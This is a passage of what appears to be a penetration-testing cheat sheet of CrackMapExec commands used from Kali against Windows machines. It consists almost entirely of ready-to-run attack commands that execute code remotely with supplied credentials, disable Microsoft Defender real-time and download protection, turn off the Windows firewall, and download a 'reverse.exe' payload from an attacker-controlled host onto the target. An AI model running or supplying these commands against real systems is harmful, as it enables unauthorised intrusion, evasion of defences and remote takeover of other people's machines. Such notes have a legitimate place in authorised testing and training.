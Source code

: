 ```bash - kali
crackmapexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --pass-pol
```


#### 14 SwisArmy CrackMapExec Command Execution

- x : cmd
- X : PowerShell
```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -x 'whoami'
```

```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'whoami'
```

```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'whoami /groups'
```

```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'ipconfig /all'
```

```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'Get-MpComputerStatus'
```

Disable real time monitoring:
```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'Set-MpPreference -DisableRealtimeMonitoring $true'
```

Disable Anti-Virus:
```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'Set-MpPreference -DisableIOAVProtection $true'
```

Disable Firewall:
```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'netsh advfirewall show allprofiles'
```

```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'netsh advfirewall set allprofiles state off'
```

Get a file:
[[Python#Server]]
```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'Invoke-WebRequest -Uri "http://$KALI/reverse.exe" -OutFile "reverse.exe"'
```

```bash - kali
crackmapexec winrm $TARGET -u $USER -p $PASSWORD -X 'dir C:\Users\'
```

#### 15 SwisArmy CrackMapExec Command Execution + Using Local Auth
